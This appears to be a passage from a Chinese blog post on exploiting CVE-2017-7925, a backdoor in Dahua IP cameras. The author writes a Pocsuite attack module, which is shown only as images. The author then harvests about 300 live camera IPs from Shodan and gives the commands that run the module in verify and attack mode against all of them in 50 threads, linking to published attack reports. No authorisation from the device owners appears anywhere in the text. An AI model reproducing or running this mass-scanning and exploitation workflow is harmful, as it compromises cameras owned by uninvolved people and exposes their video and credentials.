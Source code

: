 ![](http://niubencoolboy.github.io/img/ipc_poc/cve_2017_7925_exp.png)

### 采用Pocsuite 写attack方法

![](http://niubencoolboy.github.io/img/ipc_poc/cve_2017_7925_poc2.png)

## 自动化测试
### 获取IP
最近实验室网络不知道怎么回事，特别卡（据说是因为十九大），zoomeye api也不能使用了，所以就试试shodan，买了年会员（今天shodan也上不去了），安装shodan的Python库，输入“dahua ipc”好像只有300左右，不过还好，够测试了。
![](http://niubencoolboy.github.io/img/ipc_poc/getip.png)

### 采用Pocsuite 多线程 测试
#### verify 测试

```
pocsuite -r modules/dahua_ipc_backdoor_cve_2017_7925.py -f ipdir/dh-ipc.txt --verify --threads 50 --report dahua_verify_report.html
```
![](http://niubencoolboy.github.io/img/ipc_poc/verify_success.png)

#### attack 测试

```
pocsuite -r modules/dahua_ipc_backdoor_cve_2017_7925.py -f ipdir/dh-ipc.txt --attack --threads 50 --report dahua_attack_report.html
```
![](http://niubencoolboy.github.io/img/ipc_poc/attack_success.png)

## 结果展示
### Verify 展示
![](http://niubencoolboy.github.io/img/ipc_poc/verify_show.png)
详情见：[Report-dahua-verify-report.html](http://niubencoolboy.github.io/img/ipc_poc/dahua_verify_report.html)

### Attack 展示
![](http://niubencoolboy.github.io/img/ipc_poc/attack_show.png)
详情见：[Report-dahua-attack-report.html](http://niubencoolboy.github.io/img/ipc_poc/dahua_attack_report.html)

## 参考相关链接

1. [https://www.zoomeye.org](https://www.zoomeye.org) 
2. [https://www.seebug.org](https://www.seebug.org) 
3. [https://www.shodan.io](https://www.shodan.io) 
4. [https://github.com/knownsec/Pocsuite](https://github.com/knownsec/Pocsuite) 
5. [http://www.exploit-db.com/exploits](http://www.exploit-db.com/exploits) 
6. [http://www.cnvd.org.cn/webinfo/show/4172](http://www.cnvd.org.cn/webinfo/show/4172) 
7. [http://toutiao.secjia.com/dahua-webcam-vulnerability-analysis-protection](http://toutiao.secjia.com/dahua-webcam-vulnerability-analysis-protection) 
8. [http://us.dahuasecurity.com/en/us/Security-Bulletin_030617.php](http://us.dahuasecurity.com/en/us/Security-Bulletin_030617.php) 
9. [http://seclists.org/fulldisclosure/2017/Mar/7](http://seclists.org/fulldisclosure/2017/Mar/7) 
10. [https://ipvm.com/reports/dahua-backdoor?code=bash](https://ipvm.com/reports/dahua-backdoor?code=bash) 
11. [https://www.seebug.org/vuldb/ssvid-92745](https://www.seebug.org/vuldb/ssvid-92745) 
